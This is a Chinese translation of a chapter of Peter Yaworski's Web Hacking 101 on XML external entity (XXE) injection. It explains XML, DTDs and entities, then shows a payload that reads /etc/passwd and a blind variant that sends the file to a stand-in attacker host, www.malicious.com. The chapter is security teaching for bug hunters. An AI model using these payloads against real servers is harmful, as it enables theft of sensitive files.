 ```yaml
---
title: Web Hacking 101 中文版 十四、XML 外部实体注入（一）
id: csdn65946462
---
```


# 十四、XML 外部实体注入

> 作者：Peter Yaworski
> 
> 译者：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

XML 外部实体（XXE）漏洞涉及利用应用解析 XML 输入的方式，更具体来说，应用程序处理输入中外部实体的包含方式。为了完全理解理解如何利用，以及他的潜力。我觉得我们最好首先理解什么是 XML 和外部实体。

元语言是用于描述其它语言的语言，这就是 XML。它在 HTML 之后开发，来弥补 HTML 的不足。HTML 用于定义数据的展示，专注于它应该是什么样子。房子，XML 用于定义数据如何被组织。

例如，HTML 中，你的标签为`<title>`, `<h1>`, `<table>`, `<p>`，以及其它。这些东西都用于定义内容如何展示。`<title>`用于定义页面的标题，`<h1>`标签定义了标题，`<table>`标签按行和列展示数据，并且`<p>`表示为简单文本。反之，XML 没有预定义的标签。创建 XML 文档的人可以定义它们自己的标签，来描述展示的内容。这里是一个示例。

```
<?xml version="1.0" encoding="UTF-8"?> 
<jobs> 
    <job> 
        <title>Hacker</title> 
        <compensation>1000000</compensation> 
        <responsibility optional="1">Shot the web</responsibility> 
    </job> 
</jobs>
```

读完了之后，你可以大致猜测出 XML 文档的目的 – 为了展示职位列表，但是如果它在 Web 页面上展示，你不知道它看起来是什么样。XML 的第一行是一个声明头部，表示 XML 的版本，以及编码类型。在编写此文的时候，XML 有两个版本，1.0 和 1.1。它们的具体区别超出了本书范围，因为它们在你渗透的时候没什么影响。

在初始的头部之后，标签`<jobs>`位于所有其它`<job>`标签的外面。`<job>`又包含`<title>`、`<compensation>`和`<responsibilities>`标签。现在如果是 HTML，一些标签并不需要（但最好有）闭合标签（例如`<br>`），但是所有 XML 标签都需要闭合标签。同样，选取上面的例子，`<jobs>`是个起始标签，`</jobs>`是对应的闭合标签。此外，每个标签都有名称，并且可以拥有属性。使用标签`<job>`，标签名称就是`job`，但是没有属性。另一方面，`<responsibility>`拥有名称`responsibility`，并拥有属性`optional`，由属性名称`optional`和值`1`组成。

由于任何人可以定义任何标签，问题就来了，如果标签可以是任何东西，任何一个人如何知道如何解析和使用 XML 文档？好吧，一个有效的 XML 文档之所以有效，是因为它遵循了 XML 的通用规则（我不需要列出它们，但是拥有闭合标签是一个前面提过的例子），并且它匹配了它的文档类型定义（DTD）。DTD 是我们继续深入的全部原因，因为它是允许我们作为黑客利用它的一个东西。

XML DTD 就像是所使用的标签的定义文档，并且由 XML 设计者或作者开发。使用上面的例子，我就是设计者，因为我在 XML 中定义了职位文档。DTD 定义了存在什么标签，它们拥有什么属性，以及其它元素里面有什么元素，以及其他。当你或者我创建自己的 DTD 时，一些已经格式化了，并且广泛用于 RSS、RDF、HL7 SGML/XML。以及其它。

下面是 DTD 文件的样子，它用于我的 XML。

```
<!ELEMENT Jobs (Job)*> 
<!ELEMENT Job (Title, Compensation, Responsiblity)> 
<!ELEMENT Title (#PCDATA)> 
<!ELEMENT Compenstaion (#PCDATA)> 
<!ELEMENT Responsibility(#PCDATA)> 
<!ATTLIST Responsibility optional CDATA "0">
```

看一看这个，你可能猜到了它大部分是啥意思。我们的`jobs`标签实际上是 XML `!ELEMENT`，并且可以包含`job`元素。`job`是个`!ELEMENT`，可以包含标题、薪资和职责，这些也都是`!ELEMENT`，并且只能包含字符数据（`#PCDATA`）。最后，`!ELEMENT responsibility`拥有一个可选属性（`!ATTLIST`），默认值为 0。

并不是很难吧？除了 DTD，还有两种还未讨论的重要标签，`!DOCTYPE`和`!ENTITY`。到现在为止，我只说了 DTD 文件是我们 XML 的扩展。要记住上面的第一个例子，XML 文档并不包含标签定义，它由我们第二个例子的 DTD 来完成。但是，我们可以将 DTD 包含在 XML 文档内，并且这样做之后， XML 的第一行必须是`<!DOCTYPE>`元素。将我们的两个例子组合起来，我们就会得到这样的文档：

```
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE Jobs [ 
<!ELEMENT Job (Title, Compensation, Responsiblity)> 
<!ELEMENT Title (#PCDATA)> <!ELEMENT Compenstaion (#PCDATA)> 
<!ELEMENT Responsibility(#PCDATA)> 
<!ATTLIST Responsibility optional CDATA "0"> 
]> 
<jobs> 
    <job> 
        <title>Hacker</title> 
        <compensation>1000000</compensation> 
        <responsibility optional="1">Shot the web</responsibility> 
    </job> 
</jobs>
```

这里，我们拥有了内部 DTD 声明。要注意我们仍然使用一个声明头部开始，表示我们的文档遵循 XML 1.0 和 UTF8 编码。但是之后，我们为 XML 定义了要遵循的`DOCTYPE`。使用外部 DTD 是类似的，除了`!DOCTYPE`是`<!DOCTYPE note SYSTEM "jobs.dtd">`。XML 解析器在解析 XML 文件时，之后会解析`jobs.dtd`的内容。这非常重要，因为`!ENTITY`标签被近似处理，并且是我们利用的关键。

XML 实体像是一个信息的占位符。再次使用我们之前的例子。，如果我们想让每个职位都包含到我们网站的链接，每次都编写地址简直太麻烦了，尤其是 URL 可能改变的时候。反之，我们可以使用`!ENTITY`，并且让解析器在解析时获取内容，并插入到文档中。你可以看看我们在哪里这样做。

与外部 DTD 文档类似，我们可以更新我们的 XML 文档来包含这个想法：

```
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE Jobs [ 
<!ELEMENT Job (Title, Compensation, Responsiblity, Website)> 
<!ELEMENT Title (#PCDATA)> <!ELEMENT Compenstaion (#PCDATA)> 
<!ELEMENT Responsibility(#PCDATA)> 
<!ATTLIST Responsibility optional CDATA "0"> 
<!ELEMENT Website ANY> 
<!ENTITY url SYSTEM "website.txt"> 
]> 

<jobs>
    <job> 
        <title>Hacker</title> 
        <compensation>1000000</compensation> 
        <responsibility optional="1">Shot the web</responsibility> 
        <website>&url;</website> 
    </job> 
</jobs>
```

这里你会注意到，我继续并添加了`Website`的`!ELEMENT`，但是不是`#PCDATA`，而是`ANY`。这意味着`Website`可以包含任何可解析的数据组合。我也定义了一个`!ENTITY`，带有`SYSTEM`属性，告诉解析器获取`wensite.txt`文件的数据。现在一切都清楚了。

将它们放到一起，如果我包含了`/etc/passwd`，而不是`website.txt`，你觉得会发生什么？你可能户菜刀，我们的 XML 会被解析，并且服务器敏感文件`/etc/passwd`的内容会包含进我们的内容。但是我们是 XML 的作者，所以为什么要这么做呢？

好吧。当受害者的应用可以滥用，在 XML 的解析中包含这种外部实体时，XXE 攻击就发生了。换句话说，应用有一些 XML 预期，但是在接收时却不验证它。所以，只是解析他所得到的东西。例如，假设我正在运行一个职位公告板，并允许你注册并通过 XML 上传职位。开发我的应用时，我可能使我的 DTD 文件可以被你访问，并且假设你提交了符合需求的文件。我没有意识到它的危险，决定天真地解析收到的内容，并没有任何验证。但是作为一个黑客，你决定提交：

```
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [ 
<!ELEMENT foo ANY > 
<!ENTITY xxe SYSTEM "file:///etc/passwd" > 
]> 
<foo>&xxe;</foo>
```

就像你现在了解的那样，当这个文件被解析时，我的解析器会收到它，并且看到内部 DTD 定义了`foo`文档类型，告诉它`foo`可以包含任何可解析的数据，并且有个`!ENTITY xxe`，它应该读取我的`/etc/passwd`文件（`file://`的用法表示`/etc/passwd`的完整的文件 URL 路径），并会将`&xxe;`替换为这个文件的内容。之后你以定义`<foo>`标签的有效 XML 结束了它，这会打印出我的服务器数据。这就是 XXE 危险的原因。

但是等一下，还有更多的东西。如果应用不打印出回应，而是仅仅解析你的内容会怎么样？使用上面的例子，内容会解析但是永远不会反回给我们。好吧，如果我们不包含本地文件，而是打算和恶意服务器通信会怎么样？像是这样：

```
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [ 
<!ELEMENT foo ANY > 
<!ENTITY % xxe SYSTEM "file:///etc/passwd" > 
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;"> 
]> 
<foo>&callhome;</foo> 
```

在解释它之前，你可能已经注意到我在`callhome` URL 中使用了`%`来代替`&`，`%xxe`。这是因为`%`用于实体在 DTD 定义内部被求值的情况，而`&`用于实体在 XML 文档中被求值的情况。现在，当 XML 文档被解析，`callhome !ENTITY`会读取`/etc/passwd`的内容，并远程调用`http://www.malicous.com`，将文件内容作为 URL 参数来发送，因为我们控制了该服务器，我们可以检查我们的日志，并且足够确保拥有了`/etc/passwd`的内容。Web 应用的游戏就结束了。

所以，站点如何防范 XXE 漏洞？它们可以禁止解析任何外部实体。

> 链接
> 
> 查看 [OWASP 外部实体（XXE）解析](https://www.owasp.org/index.php/XML_External_Entity_%28XXE%29_Processing)
> 
> [XXE 速查表](http://www.silentrobots.com/blog/2014/09/02/xe-cheatsheet)